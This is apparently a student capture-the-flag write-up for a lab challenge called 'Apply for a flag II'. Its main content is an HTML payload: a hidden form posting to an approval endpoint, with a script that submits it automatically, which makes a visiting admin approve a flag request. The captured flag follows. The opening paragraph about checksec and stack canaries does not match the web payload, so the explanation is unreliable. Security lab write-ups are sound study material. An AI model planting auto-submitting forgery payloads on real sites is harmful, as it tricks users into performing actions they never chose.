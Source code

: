 # Optional CTF - Apply for a flag II

- We started this challenge by checking what were the configurations of the _program_ file (using the _checksec_ function). We can see in the image below that this file is protected with canary's. So, writing in the stack would be a tough task.

<img src="CTFs/Opcionals/Img/2-Final_Format/1.checksec.png" alt="file print - result (flag)" width="70%"/><br/>

```
<form method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/71b93db6ec908d8868bed4aba06b5977fc8aaaa8/approve" role="form">     
    <div class="submit">         
        <input type="submit" id="giveflag" value="Give the flag">    
    </div> 
</form>  

<script type="text/javascript"> 	
    document.querySelector('#giveflag').click(); 
</script>
``` 

### Flag

`flag{4c8515b3a115ecf15875944a6c5738bd}`
